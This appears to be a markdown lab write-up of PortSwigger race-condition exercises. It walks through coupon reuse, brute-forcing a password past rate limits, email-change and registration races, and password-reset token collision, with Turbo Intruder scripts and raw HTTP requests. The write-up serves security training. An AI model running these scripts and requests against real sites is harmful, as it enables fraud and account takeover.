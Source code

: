 # Race Conditions
Race conditions occur when websites process requests concurrently without adequate safeguards. This can lead to multiple distinct threads interacting with the same data at the same time, resulting in a "collision" that causes unintended behavior in the application. A race condition attack uses carefully timed requests to cause intentional collisions and exploit this unintended behavior for malicious purposes. 

### LAB: Limit overrun race conditions
Apply the coupon for the first time and send that `POST /cart/coupon HTTP/2` to repeater for as many time as you want (the more the better). 
Group all those request into a group.
Remove the coupon.  
Use the `Send group (parallel)` function to apply the coupon many times.
Keep doing that process until you got the price that you want and place order.

### LAB: Bypassing rate limits via race conditions
Send `POST /login HTTP/2` to repeater. Change `username` to `carlos`, highlight the value of `password` and send it to Turbo Intruder.
Use `race-single-packet-attack.py` and slightly modify it to use our wordlist from clipboard:

    def queueRequests(target, wordlists):
        # if the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
        # if they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
        # for more information, check out https://portswigger.net/research/smashing-the-state-machine
        engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )

        passwords = wordlists.clipboard

        # the 'gate' argument withholds part of each request until openGate is invoked
        # if you see a negative timestamp, the server responded before the request was complete
        for password in passwords:
            engine.queue(target.req, password, gate='race1')

        # once every 'race1' tagged request has been queued
        # invoke engine.openGate() to send them in sync
        engine.openGate('race1')

    def handleResponse(req, interesting):
        table.add(req)

Start the attack and notice the `302` response code, that is the password of user `carlos`.

### LAB: Multi-endpoint race conditions
Notice the vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.
First add a gift card to the cart:

    POST /cart HTTP/2
    productId=2&redir=PRODUCT&quantity=1

Send the request that add the target product to cart and the checkout request to a group in Repeater. Then send them in parallel using `Send group (parallel)`:

    POST /cart HTTP/2
    productId=1&redir=PRODUCT&quantity=1

    POST /cart/checkout HTTP/2
    csrf=vLoUJ2LkjNlmwzLOfuz1BM7waSnhptqY

Repeat the process until the target product is bought.
> Note: warming up connection
> In Burp Repeater, you can try adding a GET request for the homepage to the start of your tab group, then using the Send group in sequence (single connection) option. If the first request still has a longer processing time, but the rest of the requests are now processed within a short window, you can ignore the apparent delay and continue testing as normal.

### LAB: Single-endpoint race conditions
Send this request to repeater and duplicate it: 

    1. POST /my-account/change-email
       email=carlos%40ginandjuice.shop&csrf=1IogGOxtqFjRaz16yRHqq2ilrh2nhpQC

    2. POST /my-account/change-email
       email=wiener@exploit-0ab300c3042da6dfdd5f74bf01bd0067.exploit-server.net&csrf=1IogGOxtqFjRaz16yRHqq2ilrh2nhpQC

Group the 2 request and send them in parallel using `Send group (paralllel)` (might need to retry several times for this to work).
This will take advantage of the race condition vulnerability at the `/change-email` endpoint which cause the server to misbehave and send the confirmation email to the attacker's email.

### LAB: Partial construction race conditions
When registering a new user, an application may create the user in the database and set their API key using two separate SQL statements. This leaves a tiny window in which the user exists, but their API key is uninitialized. 
This kind of behavior paves the way for exploits whereby you inject an input value that returns something matching the uninitialized database value, such as an empty string, or null in JSON, and this is compared as part of a security control. 
In PHP: 
- `param[]=foo` is equivalent to `param = ['foo']`
- `param[]=foo&param[]=bar` is equivalent to `param = ['foo', 'bar']`
- `param[]` is equivalent to `param = []`

In Ruby on Rails: `param[key]` is equivalent to `params = {"param"=>{"key"=>nil}}`
In this lab found that `users.js` is sending the confirmation request via this:

    POST /confirm?token=abcxyz HTTP/2

Make use of the vulnerability as described above, try sending this request which set the token value to an empty array:

    POST /confirm?token[]= HTTP/2

Now use Turbo Intruder to first send the registration request and then immediately send another 50 confirmation requests to exploit race condition:

    POST /register HTTP/2
    Host: 0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Cookie: phpsessionid=HZwgup6YaMUka49rsLDdbTAJ85LAflon
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 88
    Origin: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Referer: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net/register
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Priority: u=0, i
    Te: trailers

    csrf=u74o0pHtyDEPsQc7k6lypI21zsEgrcVr&username=%s&email=sth%40ginandjuice.shop&password=123

Use this script and start the attack:

    def queueRequests(target, wordlists):

        engine = RequestEngine(endpoint=target.endpoint,
                                concurrentConnections=1,
                                engine=Engine.BURP2
                                )
        
        confirmationReq = '''POST /confirm?token[]= HTTP/2
    Host: 0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Cookie: phpsessionid=HZwgup6YaMUka49rsLDdbTAJ85LAflon
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Origin: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net
    Referer: https://0a46000d0451dd4180fea877003b0086.web-security-academy.net/confirm?token[]=
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Priority: u=0, i
    Te: trailers

    '''
        for attempt in range(20):
            currentAttempt = str(attempt)
            username = 'dog' + currentAttempt
        
            # queue a single registration request
            engine.queue(target.req, username, gate=currentAttempt)
            
            # queue 50 confirmation requests - note that this will probably sent in two separate packets
            for i in range(50):
                engine.queue(confirmationReq, gate=currentAttempt)
            
            # send all the queued requests for this attempt
            engine.openGate(currentAttempt)

    def handleResponse(req, interesting):
        table.add(req)

Look for the successful message and login with that account to delete user `carlos`.

### LAB: Exploiting time-sensitive vulnerabilities
Notice the token to reset password is of constant length. This indicates that the server might use some hash on a random value such as timestamp.
To successfully bypass this, we must send to reset password requests (1 for the victim, 1 for ourself) that the server would process at the same time.
But even if we group them and send in parallel, the 2 requests differ in time it is respond. This might be due to the way PHP server works (1 request at a time per session).
To circumvent this send to `GET /forgot-password HTTP/2` requests, obtain the `phpsessionid` and `csrf` value and replace it inside the 2 POST requests:

    POST /forgot-password HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=BGoQ0gJWxzPkxgjw2vhRNqsp9Jo3gH7p

    csrf=PYSnVQPIkY1gS5z7LeMJo4xXzTfC8ziP&username=carlos


    POST /forgot-password HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=zhqJk4SauhIr36EN5IJnaZU5TjY48tvM

    csrf=gMwRWHJwDUw3IVVPAMlJ7xaEkioFVmuD&username=wiener

Send them in parallel using `Send group (parallel)` and visits `wiener`'s email to obtain the `token` value. Use this token to reset `carlos` password using this request:

    POST /forgot-password?user=carlos&token=d3e92a3daf8835df52da0bfd3e72e37159cb969d HTTP/2
    Host: 0a0e003e04af104e81f80c4d008100ec.web-security-academy.net
    Cookie: phpsessionid=PNpxLcJrdTe5X4SRb0c044iZpdkh3jwo

    csrf=gg7Tof2M4a1REKey6NaypTP9aBojK6Wn&token=d3e92a3daf8835df52da0bfd3e72e37159cb969d&user=carlos&new-password-1=123&new-password-2=123

